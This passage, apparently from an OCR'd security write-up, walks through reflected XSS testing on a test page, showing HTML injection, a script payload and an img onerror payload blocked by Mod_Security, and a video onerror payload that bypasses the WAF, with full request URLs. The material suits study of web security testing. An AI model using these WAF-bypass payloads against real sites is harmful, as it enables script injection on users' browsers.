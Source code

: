        ```html
       <b>hello there</b>
       ```

       URL: `https://onofri.org/security/test.php?param=<b>hello+there</b>`
   *   Observed reflected HTML in source code:

       ```html
       <p id=echoed>
       <b>hello there</b>
       </p>
       ```
5. **JavaScript Injection**:
   *   Attempted to inject JavaScript:

       ```html
       <script>alert(1)</script>
       ```

       URL: `https://onofri.org/security/test.php?param=<script>alert(1)</script>`
   *   Encountered WAF response (Mod\_Security):

       ```html
       <head><title>Not Acceptable!</title></head><body><h1>Not Acceptable!</h1><p>An appropriate representation of the requested resource could not be found on this server. This error was generated by Mod_Security.</p></body></html>
       ```
6. **Bypass Attempts**:
   *   Tried `<img>` tag with `onerror` attribute:

       ```html
       <img src=x onerror=alert(1)>
       ```

       URL: `https://onofri.org/security/test.php?param=<img%20src=x%20onerror=alert(1)>`
   * Encountered same WAF response.
7. **Successful Exploitation**:
   *   Bypassed WAF using `<video>` tag:

       ```html
       <video src=x onerror=alert(1)>
       ```

       URL: `https://onofri.org/security/test.php?param=<video%20src=x%20onerror=alert(1)>`
   *   Confirmed XSS vulnerability when alert was triggered:

       ```html
       <p id=echoed>
       <video src=x onerror=alert(1)>
       </p>
       ```

## Attacking and Exploiting
